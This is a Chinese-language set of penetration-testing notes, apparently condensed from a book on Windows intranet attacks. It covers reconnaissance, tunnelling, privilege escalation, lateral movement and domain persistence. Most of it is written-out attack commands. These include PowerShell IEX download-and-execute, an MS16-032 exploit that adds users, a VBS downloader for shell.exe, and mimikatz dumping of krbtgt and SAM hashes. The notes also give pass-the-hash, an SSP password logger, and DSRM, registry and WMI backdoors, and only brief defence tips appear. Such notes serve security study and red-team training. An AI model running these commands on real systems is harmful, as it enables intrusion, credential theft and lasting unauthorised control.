原作者：https://github.com/ambitionxm/Pentest-Notes这里只是想整理一下方便阅读
第一章 内网渗透测试基础
Windows Powershell基础
查看Powershell版本
1 | Get-Host |

执行策略：
在限制了Powershell不能使用时可以使用此方式进行设置允许执行Powershell脚本
1 | Set-ExecutionPolicy Unrestricted |

策略共四种:
1 | Restricted：脚本不能运行 |
附加：
原文中提到运行脚本，可以使用.\a.ps1
如果是使用Import-Module加载脚本可以使用：
1 | . .\a.ps1 |
管道
1 | get-process p* | stop-process |
常用命令
1 | 新建目录：New-Item aaa -ItemType Directory（实际上在5.0版本可以直接通过md） |
绕过本地权限执行
1 | Powershell.exe -ExecutionPolicy Bypass -File PowerUp.ps1 |
上传之后执行：
1 | powershell.exe -exec bypass -Command "& {Import-module C:\PowerUp.ps1;Invoke-AllChecks}" |
远程加载(此处原书中存在空格被吞的情况)：
1 | powershell.exe -ExecutionPolicy Bypass -WindowsStyle Hidden -NoProfile -NonI IEX(New-ObjectNet.WebClient).DownloadString("http://www.baidu.com/xxx.ps1"); |
使用Base64编码对Powershell命令进行编码：
使用ps_encoder.py脚本加密（https://github.com/h4sh5/ps_encoder）：
1 | ./ps_encoder.py -s script.txt |

1 | powershell -encodedCommand YwBhAGwAYwAuAGUAeABlAAoA |

搭建内网环境：省略
第二章 内网信息收集
2.2收集本机信息
1.查询网络配置命令：
1 | ipconfig /all |
2.查询操作系统及软件的信息
1）查看操作系统和版本信息
1 | systeminfo | findstr /B /C:"OS Name" /C:"OS Version" |

2）查看系统体系结构
1 | echo %PROCESSOR_ARCHITECTURE% |

3) 查看安装的软件及版本、路径等
1 | wmic product get name,version |

Powershell版本：
1 | powershell.exe "Get-WmiObject -class Win32_Product | Select-Object -Property name,Version" |
3.查询本机服务信息
1 | wmic service list brief |

4.查询进程列表
1 | tasklist |

常见杀毒软件进程
1 | 360sd.exe |
5.查看启动程序信息
1 | wmic startup get command,caption |

6.查看计划任务
1 | schtasks /query /fo LIST /v |
7.查看主机开机时间
1 | net statistics workstation |
8.查询用户列表
1 | net user |
9.列出或断开本地计算机与所连接的客户端之间的会话
1 | net session |
10.查询端口列表
1 | netstat -ano |
11.查询补丁列表
1 | systeminfo |
12.查询本机共享列表
1 | net share |
13.查询路由表及所有可用接口的ARP缓存表
1 | route print |
14.查询防火墙相关配置
1）关闭防火墙
1 | //windows server 2003之前 |
2）查看防火墙配置
1 | netsh firewall show config |
3) 修改防火墙配置
1 | //windows server 2003之前允许指定程序全部连接 |
4)自定义防火墙日志的存储位置
1 | netsh advfirewall set currentprofile logging filename "C:\windows\temp\fw.log" |
15.查看代理配置情况
1 | reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings" |
16.查询并开启远程连接服务
1）查看远程连接端口
1 | reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber |
2)在Windows server 2003中开启3389
1 | wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1 |
3)在Windows server 2008和2012中
1 | wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1 |
2.2.2 自动收集信息
这里原文将上述的语句进行自动化，并将结果输出到了一个HTML文件中。
2.2.3 Empire下的主机信息收集
使用模块：
1 | usemodule situational_awareness/host/winenum |
2.3 查询当前权限
1 | whoami /all |
查询指定用户的详细信息
1 | net user xxx /domain |
2.4 判断是否存在域
查看dns服务器
1 | ipconfig /all |
查看系统详细信息
1 | systeminfo | findstr /B /C:"登录服务器" |
查询当前登录域及登录用户信息
1 | net group workstation |
判断主域
1 | net time /domain |
2.5 探测域内存活主机
使用nbtscan(http://www.unixwiz.net/tools/nbtscan.html)探测当前网段主机
1 | nbt.exe 192.168.1.0/20 |
使用ICMP探测
1 | for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.1.%I | findstr "TTL=" |

通过ARPscan工具扫描探测内网
1 | arp.exe -t 192.168.1.0/20 |
Empire中的ARPscan模块
1 | usemode situational_awareness/network/arpscan |
Nishang中的Invoke-ARPScan.ps1
1 | powershell.exe -exec bypass -Command "& (Import-module c:\windows\temp\Invoke-ARPscan.ps1; Invoke-ARPScan -CIDR 192.168.1.0/20)" >> c:\windows\temp\log.txt |
通过常规的TCP/UDP端口扫描探测内网
上传ScanLine进行扫描：
1 | scanline -h -t 22,80-90,110,445 -u 53,161 -O c:\windows\temp\log.txt -p 192.168.1.1-254 /b |
2.6扫描域内端口
telnet(但是这个速度太慢了点)
S扫描器
Metasploit端口扫描
1 | auxiliary/scanner/portscan/tcp |
PowerSploit、NiShang的Invoke-portscan脚本
2.7 收集域内基础信息
1 | net view /domain |
2.8 查找域控
1 | nltest /DCLIST:test |
2.9 获取域内的用户和管理员信息
1 | //查询所有域用户列表 |
2.10 定位域管理员
在获取了Windows域中的普通权限在进行横向渗透时，需要知道域内用户登录的位置，是否是任何系统/主机的本地管理员，以及所属组等信息。能够使用的工具有：psloggedon.exe、PVEFindADUser.exe、netness.exe、hunter、NetView、PowerView。
psloggedon.exe
能够通过此工具查看远程计算机的资源，也就是说能够查看目标主机有哪些账户在登录状态
下载地址：https://docs.microsoft.com/zh-cn/sysinternals/downloads/psloggedon
1 | psloggedon.exe \\dc2012 |

PVEFindADUser
PVEFindADUser能够用于查找活动目录用户登录的位置，枚举与用户，以及查找在特定计算机上登录的用户。包括本地用户、通过RDP登录的用户、用于运行服务和计划任务的用户。（这个工具需要.NET 3.5）
Windows Server 2012安装.NET 3.5可能不成功，需要指定安装源：https://www.cr173.com/soft/921507.html

下载地址：https://github.com/chrisdee/Tools/tree/master/AD/ADFindUsersLoggedOn
1 | PVEFindADUser.exe -current |

NetView
NetView是一个枚举工具，使用WinAPI枚举系统，利用NetSessionEnum找寻登陆会话，利用NetShareEnum找寻共享，利用NetWkstaUserEnum枚举登录的用户。同时还能够查询共享入口和有价值的用户。
下载地址：https://github.com/mubix/netview
Netness
下载地址没找到
PowerView
使用Powerview的Invoke-UserHunter。
Empire
Empire中也存在此类型的脚本：
1 | usemodule situational_awareness/network/powerview/user_hunter |
Nmap的NSE脚本
通过Nmap的NSE脚本获取远程机器的登陆会话。
smb-enum-sessions.nse获取域内主机的用户登录会话，查看当前是否有用户登录。下载地址：https://nmap.org/nsedoc/scripts/smb-enum-sessions.html
smb-enum-domains.nse对域控制器进行信息收集，可以获取主机信息用户、可使用密码策略的用户等。
smb-enum-users.nse可以使用此脚本对域控进行扫描。
2.11 查找域管理进程
其中阿里云上有个链接也说到了类似的方法：https://yq.aliyun.com/articles/599377?type=2
本机检查：
1 | //获取域管理员列表 |
查询域控的域用户会话
1 | //查询域控列表 |
第三章 隐藏通信隧道技术
1:常用隧道
1 | 网络层： |
判断内网的连通性
1 | ping www.baidu.com |
2:网络层隧道技术
IPv6隧道
几种IPv6工具：socat、6tunnel、nt6tunnel
ICMP隧道
icmpsh
https://github.com/inquisb/icmpsh
pingtunnel
https://github.com/esrrhs/pingtunnel
3:传输层隧道技术
lcx
nc
powercat
4:应用层隧道技术
SSH协议
DNS协议
dnscat2
5:SOCKS代理
earthworm
reGeorg
sSocks
SocksCap64
Proxifier
ProxyChains
6:压缩数据
rar.exe
将E:\webs\目录下的所有内容打包为1.rar放入E:\webs\目录下
1 | rar.exe a -k -r -s -m3 E:\webs\1.rar E:\webs\ |
将E:\webs\1.rar解压到当前根目录下
1 | rar.exe e E:\webs\1.rar |
分卷压缩、解压
分卷压缩E盘API目录下的所有文件及文件夹，设置每个分卷为20M
1 | rar.exe a -m0 -r -v20m E:\test.rar E:\API |
将E:\test.part01.rar解压到E盘的x1目录下
1 | rar.exe x E:\test.part01.rar E:\x1 |
7-Zip
7:上传和下载
FTP
VBS
download.vbs代码：
1 | Set Post=CreateObject("Msxml2.XMLHTTP") |
执行下面命令即可在目标主机上下载shell.exe文件
1 | Cscript download.vbs |
利用Debug
利用Nishang上传
利用bitsadmin下载
第四章 权限提升分析及防御
这里提到了一个TrustedInstaller权限，Windows的最高权限。System无法修改系统文件，但是这个权限能够进行修改。
提权类型：
横向提权、纵向提权
4.1 系统内核溢出漏洞提权分析及防范
通过手动执行命令发现缺失补丁
1 | //查看当前权限 |
这个链接里也描述了一些方法和工具：https://www.k0rz3n.com/2019/01/27/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%B0%8F%E6%8A%80%E5%B7%A7%E4%B8%80%EF%BC%9A%E5%AF%BB%E6%89%BEEXP/
可以通过对比KB来判断是否存在提权漏洞。
MS16-032
可以使用Invoke-MS16-032.ps1工具:https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1
1 | Invoke-MS16-032 -Application cmd.exe -Commandline "/c net user 1 1 /add" |
远程加载：
1 | powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString(https://raw.githubusercontent.com/Ridter/Pentest/master/powershell/MyShell/Invoke-MS16-032.ps1);Invoke-MS16-032 -Application cmd.exe -Commandline "/c net user 1 1 /add"" |
MS16-032的补丁编号为KB3139914
利用MSF发现缺失补丁
1 | use post/windows/gather/enum_patches |
Windows Exploit Suggester
将systeminfo信息输出到txt文件中
1 | systeminfo > info.txt |
windows-exploit-suggester下载地址：https://github.com/AonCyberLabs/Windows-Exploit-Suggester
1 | ./windows-exploit-suggester.py --update |

MSF中也存在此模块
1 | use post/multi/recon/local_exploit_suggester |
Powershell中的Sherlock
下载地址：https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1
1 | . .\sherlock.ps1 |

4.2 Windows操作系统配置错误急用分析和防范
系统服务权限配置错误
使用Powerup
1 | . .\Powerup.ps1 |
注册表键AlwaysInstallElevated
注册表键值AlwaysInstallElevated是一个策略设置项，Windows允许低权限用户以System权限运行安装文件。如果启用此策略设置项，那么任何权限的用户都能以System权限用户安装MSI类型文件。不过需要开启了Windows installer特权安装功能才能有效果。
可以直接设置这两个注册表键值为1来进行开启：
1 | HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated |
PowerUp中也包含了这样的利用方法：
1 | . .\PowerUp.ps1 |
可信任服务路径漏洞
这个漏洞在书中说明了利用方式，但是并没有说明根本原理，这个漏洞是由于使用CreateProcess函数创建进程时对第二个参数中的文件路径没有使用双引号括起来，这个不再说明了，在之前整理ATT&CK的文档的时候已经弄过了很多遍。可以参考这个文档：https://www.cnblogs.com/sevck/p/8488469.html
书中说到了一个查找漏洞存在的方法：
1 | wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /c "C:\Windows\\" |findstr /i /v """ |
MSF中存在能够利用的模块（需要有session）：
1 | use trusted_service_path |
自动安装配置文件
利用的是网络管理员在内网中给多台机器配置环境的配置文件中的敏感信息，如密码等。常用配置文件目录：
1 | sysprep.inf |
MSF中的利用模块：
1 | use post/windows/gather/enum_unattend |
计划任务
查看当前计划任务：
1 | schtasks /query /fo LIST /v |
这里提到了一个工具，AccessChk用于在Windows中运行一些系统或程序的高级查询，管理和故障排除工作。可以通过这个工具来查看指定目录的权限配置情况，如果当前权限有某个高权限的程序执行文件的写权限，那么就可以替换高权限文件进行权限提升。（这里说到的是使用计划任务来进行定时执行）
使用方法：
1 | //不弹框运行 |

Empire的Powerup模块
4.3 组策略首选项提权分析及防范
这个说的就是查找组策略配置文件中加密过的密码，主要就是Group.xml等文件。
可以直接使用PowerSploit中的Get-GPPPassword.ps1来获取
1 | . .\Get-GPPpassword.ps1 |
然后使用gpprefdecrypt.py脚本进行解密:
1 | python gpprefdecrypt.py XXXXXXXXXXXXXXXXXXXX |
4.4 绕过UAC提权分析及防范
MSF中的bypassuac
1 | use exploit/windows/local/bypassuac |
MSF中的RunAs
1 | use exploit/windows/local/ask |
运行后目标主机会弹出一个UAC的框，需要点击是然后才回弹回一个新的session，如果弹回的不是system权限的session则可以使用getsystem命令提升
Nishang中的Invoke-PsUACme模块
1 | //使用sysprep方法并执行默认的payload |
可以使用payloadpath参数指定payload的路径。
Empire中的bypassuac模块
1 | usemodule privesc/bypassuac |
4.5 令牌窃取分析及防范
几个名词：
1 | access token访问令牌：代表访问控制操作主体的系统对象 |
伪造令牌攻击的核心是Kerberos协议。
令牌窃取
MSF中的利用(已经有meterpreter)：
1 | use incognito |

两种类型的令牌：
1 | Delegation Tokens 授权令牌：支持交互式登录（例如可以通过远程桌面登录及访问） |
在MSF中可以选择使用某一个特定的TOKEN
1 | impersonate_token |
Rotten Potato本地提权分析
利用的前提是系统中要存在有效的令牌，然后用这个工具快速模拟用户令牌，书中的环境存在SYSTEM的token，所以可以使用下面的命令进行窃取
下载地址：https://github.com/foxglovesec/RottenPotato.git
1 | upload /opt/RottenPotato/rottenpotato.exe |
添加域管理员
这里说到了使用MSF的migrate命令，借助system权限的进程进行执行命令
Empire下的令牌窃取分析
这里说的是使用Empire下的creds命令和mimikatz模块进行pth攻击
4.6 无凭证条件下的权限获取分析及防范
主要说了一下使用Responder进行欺骗
第五章 域内横向移动分析及防御
5.1 常用Windows远程连接和命令
IPC
1 | net use \\192.168.1.10\ipc$ "admin123" /user:administrator |
dir
1 | dir \\192.168.1.10\c$ |
tasklist
1 | tasklist /S 192.168.1.10 /U administrator /P admin123 |
at：是Windows server 2008之前的计划任务命令
1 | at \\192.168.1.10 4:11PM C:\shell.bat |
创建之后会有一个任务ID，指定任务ID可以删除
1 | at \\192.168.1.10 7 /delete |
schtasks
1 | schtasks /create /s 192.168.1.10 /tn test /sc onstart /tr C:\calc.bat /ru system /f |
介绍了几种抓取本地账户密码和SAM中HASH值的方法，直接跳过了，可以参考ATT&CK中的Credential Access一章
5.6 WMI
基本的执行方式：
1 | wmic /node:192.168.1.10 /user:administrator /password:admin123 process call create "cmd.exe" /c ipconfig > ip.txt" |
其他工具：
impacket中的wmiexec，成功连接之后会有一个交互式的命令行
1 | wmiexec.py administrator:admin123@192.168.1.10 |
wmiexec.vbs
1 | cscript.exe //nologo wmiexec.vbs /shell 192.168.1.10 administrator admin123 |
Invoke-WMICommand
Invoke-WMICommand是PowerSpolit中的脚本：
1 | $user = "test\administrator" |
Invoke-WMIMethod是powershell自带的
1 | $user = "test\administrator" |
5.8 SMBEXEC
Impacket中有这个插件
Linux版本下载地址：https://github.com/brav0hax/smbexec.git
安装命令：
1 | git clone https://github.com/brav0hax/smbexec.git |
5.9 DCOM在远程系统中的使用
通过本地DCOM执行命令
获取DCOM程序列表：
1 | Get-CimInstance Win32_DCOMApplication |
使用DCOM在远程机器上执行命令
1调用MMC20.Application远程执行命令
1 | net use \\192.168.1.10 "admin123" /user:test\xiaom |
2、调用9BA05972-F6A8-11CF-A442-00A0C90A8F39
1 | $com = [Type]::GetTypeFromCLSID('9BA05972-F6A8-11CF-A442-00A0C90A8F39',"192.168.1.10") |
5.10 SPN在域环境中的应用
5.11 Exchange邮件服务器安全防范
查看邮件数据库
1 | //查询之前需要安装命令 |
第六章 域控制器安全
6.1 NTDS.dit
6.2 导出ntds.dit中的散列值
6.3 利用dcsync获取散列值
6.4 使用MSF获取散列值
6.6 Kerberos与用户提权漏洞分析与防范
第七章 跨域攻击分析与防御
7.2 利用域信任关系的跨域攻击分析
获取域信息
这里说到了lg.exe这个工具，能够用来枚举远程主机用户和组的信息。
1 | //枚举域中的用户组 |
7.3 防范跨域攻击
第八章 权限维持分析及防御
8.1 操作系统后门分析与防范
粘滞键后门
注册表注入后门
这个在ATT&CK中的Persistence一章中的Registry Run Keys / Startup Folder中有提到。命令如下：
1 | REG ADD HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run /v RegRun /t REG_SZ /d "c:\windows\system32\calc.exe" |
计划任务后门
meterpreter后门
Cymothoa后门
下载地址：https://sourceforge.net/projects/cymothoa/
安装可参照https://blog.csdn.net/qq_17204441/article/details/88834099
1 | ./cymothoa -s 0 -p <process id> -y <port> |
安装成功后使用nc等工具连接设置的端口即可。
WMI后门
WMI后门的特征是无文件和无进程，将代码加密存储于WMI中，达到所谓的无文件，当设定的条件被满足时，系统将自动启动Powershell进程去执行后门程序，执行后进程将会消失。
Empire下有WMI相关的模块可以使用：
1 | usemodule powershell/persistence/elevated/wmi |
可以在目标主机中使用命令查看存在的后门：
1 | Get-WMIObject -Namespace root\Subscription -Class CommandLineEventConsumer |
清理WMI后门的方法：删除自动运行列表中的恶意WMI条目，使用Get-WMIObject命令删除与WMI持久化相关的组件。
8.2 WEB后门
Nishang下的WEBShell
Weevely后门
webacoo后门工具
8.3 域控制器权限持久化分析与防范
DSRM后门
使用mimikatz查看krbtgt账户密码hash值
1 | .\mimikatz.exe "privilege::debug" "lsadump::lsa /patch /name:krbtgt" exit |

查看SAM文件中本地管理员的NTLM HASH值
1 | .\mimikatz.exe "token::elevate" "lsadump::sam" exit |

这里的4cb开头的hash就是DSRM hash，将DSRM hash和kebtgt的密码同步：
1 | ntdsutil |
再次查看会发现DSRM密码和krbtgt的密码相同，然后修改DSRM的登陆方式，这个注册表键值为2表示”在任何情况下都可以使用DSRM管理员账号登陆域控制器”：
1 | New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD |
使用mimikatz进行pth攻击：
1 | .\mimikatz.exe "privilege::Debug" "sekurlsa::pth /domain:DC /user:administrator /ntlm:XXXXXXXXXXX" |
DSRM后门防御措施：
1 | 检查hklm\system\currentcontrolset\control\lsa\dsrmadminlogonbehavior注册表键值的值，确认值为1 |
SSP维持域控权限
方式一：
1 | .\mimikatz.exe "privilege::debug" "misc::memssp" exit |
注销之后执行命令查看明文密码：
1 | powershell.exe cat c:\windows\system32\mimilsa.log |

方式二：
1 | powershell.exe cp .\mimilib.dll C:\Windows\System32\ |
重启之后使用命令查看密码：
1 | powershell.exe cat c:\windows\system32\kiwissp.log |
